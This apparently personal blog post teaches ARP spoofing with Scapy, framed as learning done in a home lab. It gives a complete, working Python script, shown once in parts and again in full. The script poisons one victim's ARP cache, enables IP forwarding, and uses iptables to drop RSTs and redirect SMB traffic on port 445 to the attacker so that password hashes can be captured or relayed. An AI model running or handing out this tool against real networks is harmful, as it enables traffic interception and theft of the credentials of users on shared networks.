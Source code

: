 ```yaml
---
published: true
---
```

Sure there are already some pretty good security tools that can pull off ARP spoofing: Ettercap, Bettercap, etc. This post details what I learned when I wanted to do it myself using Scapy, in the hopes that I can help someone else who's also trying to learn how to use Scapy. After a while you get tired of using other people's tools and want to learn how to do it yourself, even if you're just creating yet another tool to do 'X', at least you're learning something new.

Man In The Middle (MITM) attacks against a whole subnet frequently cause a Denial of Service (DoS) condition. In this case, I want to ARP spoof a single victim and redirect any SMB traffic to my attacker system so that I can capture or relay hashes. 

In my lab, my victim was running a fully patched Windows 10 OS. I monitored my arp table using 'arp -a'. In the interest of saving some time and not having to run an extended ARP spoof attack, I cleared my victim's ARP cache using 'arp -d *' before starting the attack.

First, our imports and argument parser. Using sys.argv[] for command line arguments is just clunky. I like to use argparser even in really short scripts that accept cli arguments.

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()
```

Now we need to set some iptables rules and also enable IP forwarding. The first iptables rule prevents the kernel from seeing traffic that didn't originate from the kernel and sending a RST, which would kill our connection. The ip_forward is necessary, otherwise you'll DoS the victim that you're attacking because your system will intercept their comms but won't forward traffic on to the destination. The final iptables argument is required to forward any SMB traffic on to our attacker's IP address on port 445 so that we can either capture the hash and crack it, or relay it on using tools such as Metasploit, Responder, or other SMB relay tools.

```python
# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

This section creates the variables required for ARP. Hopefully I've commented the code well enough as-is to make it self-explanatory. The reason why you need a victim IP and a target IP is that in this case we're targetting a single victim and don't want to risk making ourselves known and risk DoS'ing a whole subnet. Very frequently a MiTM attack causes service disruptions, so I don't want to target a whole subnet. The target IP is either going to be the system that the victim is communicating with on the same subnet, or the default gateway (router) if on a different network subnet. Adjust the send arguments 'inter' and 'count' if you want to spoof more or less than a count of 60 here, which works out to one request per second for 60 seconds.

```python
# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)
```

Finally, we're going to clean up those iptables rules and reset IP forwarding to the default.

```python
# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```

Complete code:

```python
from scapy.all import *
import os
import sys
import argparse

# Add arguments
parser = argparse.ArgumentParser(description='ScapyArpSpoof.py - ARP spoof a victim and redirect their SMB traffic to a local SMB listener to capture or relay hashes.')
parser.add_argument("victim_IP", help="Victim IP address.")
parser.add_argument("interface", help="Network interface name")
parser.add_argument("target_IP", help="Gateway or target IP address. Must be on the same broadcast domain as the attacker and victim.")
args = parser.parse_args()

# Prevent kernel from interfering and sending RST's.
os.system("iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP")
# Enable forwarding so that we don't cause a DoS.
os.system("echo 1 > /proc/sys/net/ipv4/ip_forward")
# Redirect SMB traffic between victim and target to our IP address.
os.system("iptables -t nat -A PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))

# Create Arp args.
a = ARP()
a.pdst = args.victim_IP
a.hwsrc = get_if_hwaddr(args.interface) #attacker MAC address
a.psrc = args.target_IP
a.hwdst = "ff:ff:ff:ff:ff:ff"
send(a, inter=1, count=60)

# Restore iptables and /proc/sys/net/ipv4/ip_forward.
os.system("iptables -D OUTPUT -p tcp --tcp-flags RST RST -j DROP")
os.system("echo 0 > /proc/sys/net/ipv4/ip_forward")
os.system("iptables -t nat -D PREROUTING -p tcp --dport 445 -j DNAT --to-destination {}:445".format(get_if_addr(args.interface)))
```
